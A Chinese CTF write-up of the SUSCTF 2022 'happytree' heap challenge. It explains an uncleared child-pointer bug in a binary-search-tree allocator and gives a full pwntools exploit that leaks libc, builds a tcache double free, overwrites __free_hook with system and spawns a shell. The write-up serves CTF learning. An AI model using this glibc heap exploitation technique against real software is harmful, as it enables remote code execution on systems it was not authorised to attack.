

# Susctf2022 Happytree


> 许久未更新了hhh

<!--more-->

本次susctf2022遇到一个很有意思的堆题，比赛的时候愣是看了一个下午没做出来，只好赛后借着官方wp复现一波了。

## 基础check

程序保护全开
```bash
❯ checksec ./happytree
[*] '/home/leo/ctfs/ph0t1n1a/2022/susctf2022/pwn/happytree/happytree'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

libc版本2.27，意味着tcache结构只有next指针，可以double free，unsorted bin attack无防护。

```bash
❯ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

## 功能

先丢IDA，发现是一个用二叉搜索树来组织堆块的程序。（我tm看了近一小时才看出来）

程序提供三个功能：`insert`/`delete`/`show`，三个函数的参数都是用户输入的size，而不是普通堆题的index之类的。

大致概括就是：

- 每次`insert`操作会创建两个堆块，一个是**固定大小0x30的管理堆块**，一个是**由用户输入大小而确定的不固定大小堆块**。管理堆块中存储用户输入的**大小**，指向内容堆块的**指针**，**左儿子节点**和**右儿子节点**。所有的管理堆块构成一棵**二叉搜索树**，最先创建的管理堆块是树的根节点，bss段的`0x2022a0`地址处存储了根节点的地址。insert中的size参数存在unsigned int8限制，所以我们申请堆块的范围就是`[0, 0xff]`。

  ```bash
  --------------
  |      | 0x31 |
  | ---- | ---- |
  | size | ptr  |
  | ---- | ---- |
  | left | right|
  --------------
  ```

- `delete`操作会寻找到与输入size相同的节点，然后判断其是否含有左右儿子节点：

  - 如果左右儿子节点都存在，则找到右子树中的最左叶子节点，将最左叶子节点记录的size填写到当前节点中，然后去free那个最左叶子节点的两个堆块。
  - 否则，释放改节点对应的堆块，然后返回节点存储的左/右子节点地址（或者0）。

- `show`操作就是找到与输入size相同的节点，然后打印。

## 漏洞点

漏洞点在于，当执行`delete`操作时，对于将要free的节点，程序并没有清空其中可能存在的左右儿子节点指针（即程序中的`a2[2]`/`a2[3]`），当释放然后又分配回来后，就会有两个节点的指向同一个儿子节点，构成double free。



再加上`[0, 0xff]`的范围已经可以让我们释放chunk进入unsorted bin中，所以泄露Libc也是可行的。

## exp分析

```python
#!/usr/bin/python3
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

host = '124.71.147.225'
port = 9999
elfpath = 'happytree_patched'
libcpath = 'libc.so.6'
e = ELF(elfpath)
context.binary = e
libc = ELF(libcpath)

context.binary = e

if args.LOCAL:
    p = process([e.path])
    # gdb.attach(p)
else:
    p = remote(host, port)

# io

def s(c): return p.send(c)
def sl(c): return p.sendline(c)
def r(n): return p.recv(n)
def rn(n): return p.recvn(n)
def ru(pattern, drop=False): return p.recvuntil(pattern, drop=drop)
def rl(): return p.recvline()
def ru7f(): return p.recvuntil(b'\x7f')
def su(x): return p.success(x)
def shell(): return p.interactive()

# utilities

def leak(func, address): return p.success(
    "{} ==> {}".format(func, hex(address)))

def command(c):
    ru(b'cmd> ')
    sl(str(c).encode())

def insert(size, content=b'a'):
    command(1)
    ru(b'data: ')
    sl(str(size).encode())
    ru(b'content: ')
    s(content)

def delete(size):
    command(2)
    ru(b'data: ')
    sl(str(size).encode())

def show(size):
    command(3)
    sl(str(size).encode())
    # ru(b'content: ')

# start pwning
insert(1)
insert(2)
insert(8, b'/bin/sh\x00')

# use unsorted bin to leak libc
for i in range(8):
    insert(0xd0 + i)
for i in range(8):
    delete(0xd7 - i)
# 1 -> 2 -> 8

for i in range(7):
    insert(0xd0 + i)
insert(0xd7, b'a'*8)
show(0xd7)

leakaddr = u64(ru7f()[-6:].ljust(8, b'\x00'))
libc_base = leakaddr - (0x7f8246ba2ca0 - 0x7f82467b7000)
leak("libc base", libc_base)
libc.address = libc_base
free_hook = libc.sym['__free_hook']
system = libc.sym['system']

# double free
insert(0xf2)
insert(0xf7)
insert(0xf6)
insert(0xf4)
insert(0xf5)
insert(0xf0)
insert(0xf1)

# 构造double free
delete(0xf2)
insert(0xf8)
delete(0xf5)
delete(0xf8)
delete(0xf7)

# 填充两个正常的0x30 tcache bin
delete(1)
delete(2)

# 利用构造好的tcache[0x100]中的double free来修改free_hook
insert(0xef, p64(free_hook))
insert(0xee, p64(0))
insert(0xed, p64(0))
gdb.attach(p)
insert(0xec, p64(system))
delete(8)

shell()
```

利用unsorted bin泄露libc之后，二叉树的部分如下图所示。接着的`delete(0xf2)`操作实际上删除的是`0xf4`大小的节点，并将`0xf2`节点记录的size改写为`0xf4`。


所以，紧接着的`insert(0xf8)`会得到一个残留有`0xf5`节点指针的节点，而因为之前的`delete(0xf2)`操作，`0xf6`同样会指向`0xf5`节点。


然后`delete(0xf5)`会搜索到`0xf6`左子树中的`0xf5`节点，然后删除其对应的堆块。此时的树与tcache的情况如图所示。


接着`delete(0xf8)`将`0xf5`移动到`0xf7`的右子树。


因为`0xf7`节点的左右叶子节点均存在，所以`delete(0xf7)`操作又会搜索到`0xf5`节点然后再次将其删除。此时，tcache中已经产生了double free。


接下来就是常规的tcache double free应用，最终改free_hook然后getshell。

## 总结

第一次碰到这种结合数据结构来出的堆题，洞藏得挺隐蔽的（不是，其实有经验的话一眼就能看出来），而且创建和释放堆块的操作还需要选手去复习一波二叉搜索树的性质，所以总体来说是一道非常有趣的题，特此记录一下。
